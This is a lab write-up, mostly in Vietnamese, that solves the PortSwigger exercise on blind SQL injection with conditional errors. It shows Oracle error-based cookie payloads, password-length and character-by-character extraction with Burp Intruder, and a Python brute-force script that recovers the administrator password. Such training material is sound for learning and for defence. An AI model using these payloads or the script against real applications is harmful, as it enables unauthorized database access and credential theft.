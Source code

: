 # Lab: Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:
 
`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `True` hay `False`

Query được sử dụng trong lab

```
SELECT trackingID FROM someTable WHERE trackingID = '<COOKIE-VALUE'>
```

Mình sẽ bỏ qua hoàn toàn content của cookie từ bây giờ và chỉ cung cấp chuỗi được thêm vào giá trị TrackingId.

Bài này mình làm 2 cách `sqlmap` và `Portswigger`

# Solution:

# PortSwigger:

Kiểm tra `TrackingID` cookie bằng cookie editor. Thêm kí tự `'` thì gây ra lỗi

![image](https://user-images.githubusercontent.com/115911041/234747603-d319fdfc-f2f3-4847-b3fb-01ee3c4b0d6f.png)

Bởi vì loại lỗ hổng này, chúng ta không thể thấy bấy kì kết quả nào của query cũng như sự khác biệt ở output. Tuy nhiên, nếu ta có thể tạo ra các requests gây ra lỗi database, ta có thể suy ra giả trị thật dựa trên việc lỗi có hiển thị ra hay không.

Vậy bước đầu ta cần xác định tham số nào là lỗ hổng bằng cách tạo ra các request mà đưa ra câu trả lời `normal` hoặc `error`.

Inject 1 kí tự `'` tạo ra `server error`, inject 2 kí tự `'` thì không xảy ra. Điều này cho thấy khả năng SQLi, vì thề mình thử vài payload:

`'||(SELECT+null||'` cũng cho ra lỗi, tuy nhiến nếu là  `'||(SELECT+null+FROM_dual)||'` thì không. Vì thế database đang sử dụng là Oracle DB.

***Toán tử `||` cho phép nối chuỗi dữ liệu và kết quả truy vấn. `()` được sử dụng để nhóm các điều kiện hoặc phép tính lại với nhau.***

## TÌm lệnh 'normal' và 'error'

Dựa vào `cheat sheet` mà Lab cung cấp, một ví dụ về conditional error 

`SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FORM DUAL`

Với `normal` query, chúng ta lấy `input` là `FLASE`, dó đó nó không xảy ra lỗi `divison by zero`

```
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Content của cookie cho `normal` case được cho ra một trang web `normal`:

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Trường hợp `error` có condition được cho là true, do đó khiến cho databse thực hiện `division by zero` dẫn đến `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

Giờ chúng ta đã có cách phân biệt kết quả của boolean condition.

## Xác định database table và columns

Bước tiếp theo là xác định table `users` có thật sự tồn tại ở trong database. Với cái này, mình sử dụng database version oracle giới hạn lượng row output:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

Nó cho thấy trang web, xác định đó là query hợp lệ và cũng như table name và cả column names đều hợp lệ.

## Xác định user tồn tại trong database

Để gây ra lỗi, chúng ta mở rộng ví dụ bằng cách thực hiện `division by zero` nếu tên người dùng không tồn tại. Câu lệnh này gây ra `internal server error`, chĩ ra rằng query này dẫn đến `division by zero`

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Thay đổi username thành một giá trị tùy ý, page được hiển thị. Điều này xác định rằng điều kiện `1=1` và `division by zero` phụ thuộc vào việc `FROM users WHERE...`  một phần trả về thứ gì đó.

Điều này xác định `administrator` tồn tại trong database.

## Xác định chiều dài của password

Xác định chiều dài rất dễ dàng bằng cách sử dụng hàm `LENGTH` ở cuối câu điều kiện SQL.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

Sẽ hiển thị ra page, chỉ ra rằng kcheck `1=1`  chưa bào giờ được thực hiện. Sử dụng Burp Intruder, mình kiểm tra các số từ 1 đến 50. Và đây là kết quả:

![image](https://user-images.githubusercontent.com/115911041/234764891-1bee6f68-254a-497e-8724-b0c7a15c0818.png)

Password có độ dài là 20

## Liệt kê password của administrator

Bây giờ ta đã có độ dài của password, ta có thể brute force mỗi kí tự.

```
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

![image](https://user-images.githubusercontent.com/115911041/234771778-bf4cc7ce-115e-4f39-b730-430e28cd716a.png)

Attack type : ***Cluster bomb***

Payload 1: numeric (1..20)

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/234780110-868eeb9d-24a2-48b1-a425-675662867d78.png)

`Password: cdqdx99j8s0srlhmnjq8`

![image](https://user-images.githubusercontent.com/115911041/234780398-d96fd0c5-909d-4f1e-aa4b-5791c3fcb72f.png)

# Script python

Password LENGTH

`'|| (SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM <TABLE> WHERE <Column> = '...')||'`

Password BruteForce

`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

```
import requests
import string

characters = list(string.ascii_lowercase)
characters += list(string.digits)
url = "" 
length = 20
result = ''

print("[+] Extract Info")

for i in range(1, length+1):
    for char in characters:
        payload = "a'||(SELECT CASE WHEN SUBSTR(password,%i,1)='%s' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'" %(i, char)
        print("Tring Number %i with: " %(i), char)
        cookie = {"TrackingId":payload}
        response = requests.get(url, cookies=cookie)
        if response.status_code == 500:
            result += char
            break

    print("[+] Result is : ", result)

```

